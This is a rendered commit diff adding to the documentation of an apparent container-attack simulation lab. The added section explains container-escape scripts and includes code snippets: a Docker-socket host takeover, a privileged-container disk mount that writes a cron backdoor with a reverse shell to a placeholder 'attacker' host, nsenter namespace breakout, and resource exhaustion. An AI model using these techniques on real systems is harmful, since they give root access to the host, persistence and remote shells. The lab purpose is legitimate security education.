

Before and after one commit to ritvikindupuri/containerizedattacks, a Markdown page: technical_documentation.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/technical_documentation.md
+++ b/technical_documentation.md
@@ -562,4 +530,60 @@ The `attack-orchestrator` acts as the adversary within the network.
     *   As each script executes, it attempts the exploit, measures the outcome (success/failure), calculates the duration, and POSTs the result back to its own background `metrics_exporter.py` service.
     *   The dashboard on the host machine then queries port `9090` to display these attack results in real-time.
 
-## 5. Conclusion
+## 5. Attack Simulations: Code and Mechanics
+
+The core of the simulation platform is driven by the 7 autonomous Python scripts located in the `attacks/` directory of the `attack-orchestrator`. Below is a technical breakdown of how each script executes the exploit, complete with code snippets demonstrating the underlying container primitives.
+
+### 1. Docker Socket Escape (`1_docker_socket_escape.py`)
+This script exploits the inappropriately mounted `/var/run/docker.sock` in the `vulnerable-web` target. It connects directly to the Docker API from inside the container to spawn a new, highly privileged container that mounts the underlying host filesystem.
+```python
+# Creates a Docker client connected to the mounted Unix socket
+client = docker.DockerClient(base_url='unix://var/run/docker.sock')
+
+# Spawns an alpine container, mounting the root host filesystem (/) into the container (/host)
+container = client.containers.run(
+    'alpine:latest',
+    command='chroot /host bash -c "whoami && uname -a"',
+    volumes={'/': {'bind': '/host', 'mode': 'rw'}},
+    privileged=True,
+    detach=False
+)
+```
+*Mechanic:* By gaining access to the Docker daemon, the script bypasses all container isolation, achieving arbitrary code execution on the host OS as root via `chroot`.
+
+### 2. Privileged Container Escape (`2_privileged_container_escape.py`)
+This attack specifically targets the `privileged-container` target, which runs with `--privileged=true`. The script demonstrates how bypassing AppArmor/SELinux and dropping seccomp filtering allows direct host manipulation.
+```bash
+# Mounts the host's physical disk device into the container
+mkdir -p /mnt/host_root && mount /dev/sda1 /mnt/host_root
+
+# Drops a malicious payload into the host's cron directory for persistence
+echo '* * * * * root /bin/bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"' > /mnt/host_root/etc/cron.d/backdoor
+```
+*Mechanic:* A privileged container has access to all host devices in `/dev`. The script mounts the primary disk partition (`/dev/sda1`) and modifies host OS files (e.g., cron jobs) directly.
+
+### 3. Namespace Manipulation (`3_namespace_manipulation.py`)
+Containers rely on Linux Namespaces (PID, Mount, Network, IPC, UTS, User) for isolation. This script breaks namespace boundaries to inspect host processes or pivot to other environments.
+```python
+# Attempt to utilize nsenter to execute a shell in the host's init process (PID 1) namespace
+subprocess.run("nsenter -t 1 -m -u -n -i sh", shell=True)
+
+# Inspect host processes by reading /proc/1/root (if accessible)
+subprocess.run("ls -la /proc/1/root/ | head -10", shell=True)
+```
+*Mechanic:* Tools like `nsenter` and `unshare` are used to jump into different namespaces. If the container lacks proper isolation (e.g., sharing the host PID namespace), an attacker can interact with host processes directly.
+
+### 4. Resource Abuse (`4_resource_abuse.py`)
+This attack causes a Denial of Service (DoS) by exploiting misconfigured or absent `cgroups` (Control Groups), which govern resource allocation.
+```python
+# Fork bomb attack: rapidly exhaust the PID namespace
+for i in range(50):
+    subprocess.Popen(['sleep', '30'], stdout=subprocess.DEVNULL)
+
+# CPU exhaustion attack: max out CPU cycles across all available cores
+def cpu_burn():
+    end_time = time.time() + 5
+    while time.time() < end_time: _ = sum(range(1000000))
+```
+*Mechanic:* Without memory limits (`/sys/fs/cgroup/memory/memory.limit_in_bytes`) or PID limits (`/sys/fs/cgroup/pids/pids.max`), an attacker can spawn infinite processes or allocate massive byte arrays until the host kernel invokes the OOM (Out Of Memory) killer.
+
````
Also changed, not shown: other parts of technical_documentation.md (+51 -50 lines), README.md (+7 -5 lines).
